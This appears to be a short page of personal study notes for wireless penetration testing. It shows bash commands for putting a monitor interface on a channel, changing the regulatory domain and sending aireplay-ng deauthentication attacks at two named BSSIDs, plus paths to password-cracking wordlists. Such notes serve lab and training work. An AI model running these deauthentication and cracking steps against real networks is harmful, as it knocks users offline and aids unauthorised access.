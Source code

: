 
Switch to a channel:
```bash
iwconfig wlan0mon channel 11
sudo airmon-ng start wlan0 11
```
>[!info]
>Done when a command can't specify a channel, e.g. aireplay

Wordlists:
```bash
/usr/share/wordlists/rockyou.txt
/usr/share/john/password.lst
```

Change regulatory domain:
```bash
iw reg set US
```

Multiple ESSID's with different BSSID's? 
- Deauth all of them: [[18-25. MGT]]
```bash
sudo aireplay-ng -0 5 -a F0:9F:C2:71:22:1A wlan0mon
sudo aireplay-ng -0 5 -a F0:9F:C2:71:22:15 wlan0mon
```